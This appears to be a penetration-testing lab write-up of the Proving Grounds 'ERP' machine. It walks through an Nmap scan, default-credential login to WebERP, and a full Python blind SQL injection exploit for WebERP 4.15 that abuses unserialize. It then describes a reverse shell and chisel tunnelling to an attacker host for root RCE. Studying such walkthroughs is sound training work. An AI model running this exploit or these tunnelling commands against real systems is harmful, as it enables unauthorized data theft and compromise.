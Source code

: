 #### Enumeration

Performing network service reconnaissance using Nmap.

```shell
└─$ sudo nmap --min-rate 1000 -p- -Pn 192.168.175.227 -sC -sV
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-04 10:21 CST
Nmap scan report for 192.168.175.227
Host is up (0.29s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62361a5cd3e37be170f8a3b31c4c2438 (RSA)
|   256 ee25fc236605c0c1ec47c6bb00c74f53 (ECDSA)
|_  256 835c51ac32e53a217cf6c2cd936858d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: TsukorERP
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

Trying to log in using common credentials and SQL injection, but unable to gain access.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230303_224723_001.png)

Continuing our search of the web directory, we find a robots.txt file that provides an additional link to `/weberp/index.php`.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_131417_002.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_131539_003.png)

We are able to log in successfully using the credentials we found on Google.

```
admin///weberp
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_133108_004.png)

Note that logging into this ERP system may be a bit slow.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_133245_005.png)

Once we log in, we can verify that the system version is 4.15 and identify a related vulnerability.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_134134_006.png)
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_134251_007.png)

We test the vulnerability and confirm that the PoC codes works properly. Note that both the `path` and `order` parameters must be entered correctly. It took me a lot of time to test.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_134725_008_.png)

Although this PoC codes is only for blind SQL injection testing, we can modify it to retrieve the data, just like in sqlmap. I refer to other SQL injection testing codes and modify our PoC codes accordingly. The results are as follows:

```python
# Exploit Title: Blind SQL injection in WebERP.
# Date: June 10, 2019
# Exploit Author: Semen Alexandrovich Lyhin (https://www.linkedin.com/in/semenlyhin/)
# Vendor Homepage: http://www.weberp.org/
# Version: 4.15

# A malicious query can be sent in base64 encoding to unserialize() function. It can be deserialized as an array without any sanitization then. 
# After it, each element of the array is passed directly to the SQL query. 

import requests
import base64
import os
import subprocess
from bs4 import BeautifulSoup
import re
import time
import sys

def generatePayload(PaidAmount="0",PaymentId="0"):
    #THIS FUNCTION IS INSECURE BY DESIGN
    ToSerialize = r"[\"%s\" => \"%s\"]" % (PaymentId, PaidAmount)
    return os.popen("php -r \"echo base64_encode(serialize(" + ToSerialize + "));\"").read()

def getCookies(ip, CompanyNameField, usr, pwd):
    r = requests.get("http://" + ip + "/index.php")
    s = BeautifulSoup(r.text, 'lxml')
    m = re.search("FormID.*>", r.text)
    FormID = m.group(0).split("\"")[2]
    
    data = {"FormID":FormID,"CompanyNameField":CompanyNameField,"UserNameEntryField":usr,"Password":pwd,"SubmitUser":"Login"}
    r = requests.post("http://" + ip + "/index.php", data)
    
    return {"PHPSESSIDwebERPteam":r.headers["Set-Cookie"][20:46]}
    

def addSupplierID(name, cookies, proxies):
    r = requests.get("http://" + ip + "/Suppliers.php", cookies=cookies)
    s = BeautifulSoup(r.text, 'lxml')
    m = re.search("FormID.*>", r.text)
    FormID = m.group(0).split("\"")[2]
    
    data = {"FormID":FormID,"New":"Yes","SupplierID":name,"SuppName":name,"SupplierType":"1","SupplierSince":"01/06/2019","BankPartics":"","BankRef":"0",
            "PaymentTerms":"20","FactorID":"0","TaxRef":"","CurrCode":"USD","Remittance":"0","TaxGroup":"1","submit":"Insert+New+Supplier"}
            
    requests.post("http://" + ip + "/Suppliers.php", data=data,cookies=cookies,proxies=proxies)


def runExploit(cookies, supplier_id, payload, proxies):
    r = requests.get("http://" + ip + "/Payments.php", cookies=cookies)
    s = BeautifulSoup(r.text, 'lxml')
    m = re.search("FormID.*>", r.text)
    FormID = m.group(0).split("\"")[2]
    
    data = {"FormID":FormID,
            "CommitBatch":"2",
            "BankAccount":"1",
            "DatePaid":"01/06/2019",
            "PaidArray":payload}
         
    requests.post("http://" + ip + "/Payments.php?identifier=1559385755&SupplierID=" + supplier_id, data=data,cookies=cookies,proxies=proxies)


if __name__ == "__main__":
    #proxies = {'http':'127.0.0.1:8080'}
    proxies = {}
    
    if len(sys.argv) != 6:
        print '(+) usage: %s <target> <path> <login> <password> <order>' % sys.argv[0]
        print '(+) eg: %s 127.0.0.1 "weberp/webERP/" admin weberp 1' % sys.argv[0]
        print 'Order means the number of company on the website. Can be gathered from the login page and usually equals 0 or 1'
        exit()
    
    ip = sys.argv[1] + "/" + sys.argv[2]
    
    #if don't have php, set Payload to the next one to check this time-based SQLi: YToxOntpOjA7czoyMzoiMCB3aGVyZSBzbGVlcCgxKT0xOy0tIC0iO30=
    #payload = generatePayload("0 where 1=IF((SELECT count(*) FROM information_schema.schemata)='3', SLEEP(5), 0);-- -", "0")
    
    #payload = generatePayload("0", "' or sleep(5) and '1'='1")
    #payload = generatePayload("0", "' or 1=IF((SELECT count(*) FROM information_schema.schemata)='3', SLEEP(5), 0) and '1'='1")
    for i in range(1, 50):
            
        dictionary = " ,abcdefghijklmnopqrstuvwxyz0123456789_"

        for j in range(0, len(dictionary)):        
            # get databases    
            payload = generatePayload("0", "-12' or sleep(IF((SELECT substring(group_concat(schema_name),%s,1) FROM information_schema.schemata" \
                                      " WHERE schema_name NOT IN ('information_schema','mysql','performance_schema')) = '%s', 5, 0)) and '1'='1" % (i, dictionary[j]))
            
            #get cookies
            cookies = getCookies(ip, sys.argv[5], sys.argv[3], sys.argv[4])
            
            addSupplierID("GARUMPAGE", cookies, proxies)
            
            t1 = time.time()
            runExploit(cookies, "GARUMPAGE", payload, proxies)
            t2 = time.time()
            
            if (t2-t1>4) and j == 0:
                print "Finish"
                sys.exit()
            elif (t2-t1>4) and j == 1:
                print "\n"
            elif (t2-t1>4):
                print dictionary[j]
                break
            #else:
                #print "Verify input data and try again"
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_151210_009.png)

As you can see, we have found another database named `inoerp_db`. Although we could try to modify the code to continue retrieving tables and more information, but it would take a lot of time. So, let's try googling the database name and see what we can find.

Now that we know it is another ERP system, perhaps it has been installed on our target host and has vulnerabilities?

```
http://192.168.188.227/inoerp/
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_151221_010.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_151425_011.png)

Although the vulnerability version is not applicable, we can still attempt to use it and see what happens.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_151641_012.png)

We have obtained a reverse shell.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_152542_013.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_152612_014.png)

#### Privilege Escalation

We have found an active port 8443 that was not visible during the initial nmap scan.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_153429_015.png)

Use `chisel` to forward the service.

Use port 80 on our host to listen to the forwarding.

```shell
./chisel server -p 80 --reverse -v
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_160123_016.png)

Execute the following command on the target host.

```shell
# ./chisel client <attacker ip>:<attacker port> R:<attacker service port>:localhost:<target service port>
./chisel client 192.168.45.5:80 R:5678:localhost:8443
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_160224_017.png)

The service has been successfully forwarded.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_160310_018.png)

Confirmed that an HTTP service is running on port 8443 on the target host via nmap scan.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_161138_019.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_162058_020.png)

This service has an unauthenticated RCE vulnerability and is running with root privilege.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_162551_021.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_164006_022.png)

Since port 80 is already being used for listening and forwarding, we will choose another active port from the list for reverse shell listening.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_164210_023.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/ERP/ERP_20230304_164236_024.png)

